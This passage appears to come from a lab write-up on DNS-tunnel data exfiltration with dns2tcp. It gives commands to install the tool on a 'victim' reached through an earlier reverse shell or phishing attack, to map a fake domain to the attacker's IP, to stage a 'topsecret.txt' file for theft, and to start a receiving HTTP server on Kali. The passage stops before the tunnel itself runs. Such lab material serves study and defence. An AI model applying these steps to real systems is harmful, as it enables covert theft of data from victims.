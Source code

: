 ```
sudo apt update
sudo apt install dns2tcp
```
`dns2tcp` is the tool that will create the DNS tunnel between the victim and attacker. We install it from the victim side using shell access previously obtained (e.g., from the reverse shell attack or from a phising attack).

_The following screenshot shows the installation of the dns2tcp package on the victim machine:_



#### b. Adding a fake domain to `/etc/hosts` 

```
sudo nano /etc/hosts
```

Then we add:
```
10.0.1.4 berrysafe.com
```

This tells the victim’s machine that `berrysafe.com` should point to the attacker’s IP address. Since this is a **fake domain** not registered in public DNS, we need to manually map it to the attacker’s machine. This step ensures that when the victim tries to resolve `berrysafe.com`, the DNS request reaches the Kali VM.

#### c. Preparing the file to exfiltrate 
```
echo "TOP SECRET DATA" > topsecret.txt
```

This creates a sample file named `topsecret.txt` containing data we want to steal. This simulates the presence of confidential information on the victim's system.


#### d. Creating a configuration file for `dns2tcpc`
```
sudo nano /etc/dns2tcpc.conf
```
We paste the following content: 

```
domain = berrysafe.com 
key = shhhh
```

This `dns2tcpc.conf` file defines: 
* The domain name the client will connect to (`berrysafe.com`)
* A shared secret key (`shhhh`) for authentication and encryption of the tunnel.

This file is used by the `dns2tcpc` client when initiating the tunnel.


#### 2. On the Attacker (Kali) 

#### a. Starting a simple HTTP server to receive the file
```
mkdir -p ~/exfil
cd ~/exfil
python3 -m http.server 9000
```
